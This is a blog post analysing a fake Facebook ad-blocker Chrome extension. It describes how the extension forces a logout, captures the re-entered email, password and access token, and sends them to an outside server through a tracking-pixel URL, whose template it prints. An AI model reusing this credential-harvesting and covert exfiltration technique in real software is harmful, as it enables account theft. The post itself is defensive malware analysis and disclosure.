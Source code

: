 ```yaml
---
layout: post
title: Inside a malicious Chrome Extension
---
```

Today I saw a sketchy Facebook ad, an empty “Blogging” site with stock photos advertised an “Ad blocker for Facebook”.

I checked out the site, and saw that it only had negative reviews, stating that it didn’t work and slowed down their browser. This made me curious.

# The Extension
![Screenshot from the Chrome Web Store]({{site.url}}/public/chrome_extension_title.jpg)

The extension claims to block out Facebook advertisements, and — ironically — advertises itself on Facebook for it. This stragety is quite simple but ingenious, I mean who likes to see ads while browsing Facebook? Also if you are seeing their advertisement, you obviously have no AdBlocker installed for it.

The Chrome Web Store says it has a total of 10k+ users.

# Behind the Scenes

Analyzing Google Chrome Extensions can be quite easy, atleast when the code — like in this example — isnt obfuscated.

You can just download it, get the unique extension ID from chrome://extensions, and then look at the source code found in your Profile Folder\Extensions\IDofYourExtension.

# Basic Structure

The Extension folder has 4 subfolders, a empty .vs folder, suggesting that the developers used Visual Studio, a _metadata folder filled with file hashes, this seems to be a Chrome Extension standard to guarantee that the files haven’t been modified or corrupted, a img folder with the extension logo, and finally the interesting part: A folder named **js**.

This folder has a total of 4 non obfuscated JavaScript files, and — *as all good JavaScript programs* — a jQuery dependency.

We will focus on 2 files: **background.js** and **fb3.js**.

In background.js, a listener is added when the Chrome extension is installed, it waits 25 seconds until it executes the function **s_fun_en()**

{% gist 7e8d06bcadafce622d6d4c92872c3e72 background.js %}

The delay of 25 seconds is interesting, the extension tries to not raise suspicion with a variety of timing strageties.

The function **s_fun_en()** is full of these timing strageties. First it creates a timestamp, and saves it to the variable **n**, which will later be compared to the **app.lt** variable, while ensuring that **app.lt** is not the default value of **0**.

**app.lt** is the timestamp of installation, the function **s_fun_en()** results in nothing until 11 hours have passed since the installation.

{% gist 115b6e212affcb2945c1f7b4a5aee6eb background.js %}

This condition is true when **n** (the current timestamp) is bigger than the installation timestamp + 11 hours.

If 11 hours have passed the extension begins working: It removes 2 cookies from Facebook, resulting in deauthentication, and also marks the time when the user was kicked out of his Facebook account in the **app.ltr** variable.

This helps the extension to remain under the radar, so the user does not raise suspicion when he is logged out directly after installing this extension.

This is when we have a look at the **fb3.js** file, it listens for the moment when the user is logging into Facebook again.

The extension steals the E-Mail and password, and sends it to the message listener in **background.js**

{% gist 044fd5c39cb1f0ad46dd770ac1b8bf19 fb3.js %}

The listener saves the E-Mail and password combination into the **app.ld** variable, and proceeds to store the **c_user** cookie in **app.u**, containing the unique ID of the victims Facebook profile. If it can’t find this cookie, it executes the function again, until it gives up after a minute.

The **fb3.js** has another function, which constantly tries to grab the Facebook access token, if it succeeds it is also stored in **app.t**

{ % gist 6acf2a878e1cb69521cb2a7dfdcc6072 background.js %}

So now the extension has successfully grabbed the E-Mail and Password, the unique ID, and the access token.

The obtained information is quite critical, the E-Mail and Password could be used to access the users Facebook account, or to access other accounts in which the same combination is used.

**The extension has gathered a lot of information, the breaking point however is how it transfers this information back to the owner.**

# The Exfil

Typically, malware has a breaking point: The Exfiltration of it's stolen data, or contacting a C&C Server to receive further instructions.

While code can be obfuscated, and (most of the times) gives no clue to whoever made it, the malware has to contact some server (which can be reported, to law enforcement or easier the hosting provider) to submit it’s findings.

After all the work on the local side is done, **background.js** get’s to work again:

It checks if all the needed data is grabbed, and saves the E-Mail password combination into **d**, base64 encodes it, and then embeds a picture.

{% gist e1810d7eec2b783cef019d445bc76613 background.js %}

The picture is generated from www.en-antibanner.ru/img.php , and the extension adds a lot of parameters to it.

``https://en-antibanner.ru/img.php?d=EMailAndPassword&u=UserID&l=&rnd=RandomNumber``

This picture is 1x1 big, so you really wouldn’t see it.

Loading an image, rather than making a POST request to some sketchy server, is less likely to be detected.

# Measures taken

I reported the extension to the Chrome Web Store and Facebook, I will talk more about in a second. *Note from future Altay: Chrome took it down, and also heavily improved their extension security with [Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro/)*

I had a quite funny idea: What would happen if you would trash their database by adding tons and tons of random data. They would get the infected users credentials for sure, but they would have to search for it between all the junk data.

I wrote a quick JavaScript which creates a fake E-Mail and Password combination, a fake User ID and then sends it to the server.

You can add fake data by visiting this [JSFiddle]/https://jsfiddle.net/ozj1mhpu/) and hitting the “Run” Button, once, twice or maybe a thousand times. *Future Altay: The website is down, it was fun nonetheless*

**Thank you for reading!** I am not quite sure how to think about this, Chrome Web Store has virtually no security measures, I wasn’t warned that this file could be a virus and the extension seems to be able to do just about everything, while users can install it with one-click. *Future Altay: Manifest V3 is better I guess, although users will probably accept every single permission requested*

[You can look into the extension yourself, I uploaded it to my GitHub](https://github.com/AltayAkkus/FacebookAdBlocker)